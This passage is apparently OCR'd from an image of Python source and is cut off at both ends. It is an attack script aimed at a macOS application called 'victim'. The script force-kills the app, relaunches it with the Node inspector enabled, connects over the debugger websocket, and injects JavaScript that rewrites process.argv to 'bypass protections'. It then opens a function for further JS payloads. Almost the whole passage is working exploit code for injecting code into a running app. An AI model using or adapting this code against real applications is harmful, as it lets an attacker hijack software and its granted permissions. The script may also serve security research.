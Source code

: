 ```
    data = response.json()
    if not data:
        raise RuntimeError("No debug targets found on port 9229.")
    # data[0] should contain an object with "webSocketDebuggerUrl"
    ws_url = data[0].get("webSocketDebuggerUrl")
    if not ws_url:
        raise RuntimeError("webSocketDebuggerUrl not found in inspector data.")
    INSPECT_URL = ws_url

async def monitor_victim():
    print("Monitoring victim process...")
    found = False
    while not found:
        sleep(1)  # Check every second
        for process in psutil.process_iter(attrs=['pid', 'name']):
            try:
                # Check if the process name contains "victim"
                if process.info['name'] and 'victim' in process.info['name']:
                    found = True
                    print(f"Found victim process (PID: {process.info['pid']}). Terminating...")
                    os.kill(process.info['pid'], 9)  # Force kill the process
            except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
                # Handle processes that might have terminated or are inaccessible
                pass
    os.system("open /Applications/victim.app --args --inspect-brk")

async def bypass_protections():
    global CONTEXT_ID, NAME, UNIQUE_ID
    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        
        sleep(1)

        await send_cmd(ws, "Debugger.enable", {"maxScriptsCacheSize": 10000000})

        await send_cmd(ws, "Profiler.enable")

        await send_cmd(ws, "Debugger.setBlackboxPatterns", {"patterns": ["/node_modules/|/browser_components/"], "skipAnonnymous": False})

        await send_cmd(ws, "Runtime.runIfWaitingForDebugger")

        await send_cmd(ws, "Runtime.executionContextCreated", get_first=False, params={"context": {"id": CONTEXT_ID, "origin": "", "name": NAME, "uniqueId": UNIQUE_ID, "auxData": {"isDefault": True}}})

        code_to_inject = """process['argv'] = ['/Applications/victim.app/Contents/MacOS/victim']"""
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression": code_to_inject, "uniqueContextId":UNIQUE_ID})
        print("Injected code to bypass protections")

async def js_payloads():
    global CONT, CONTEXT_ID, NAME, UNIQUE_ID

    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
```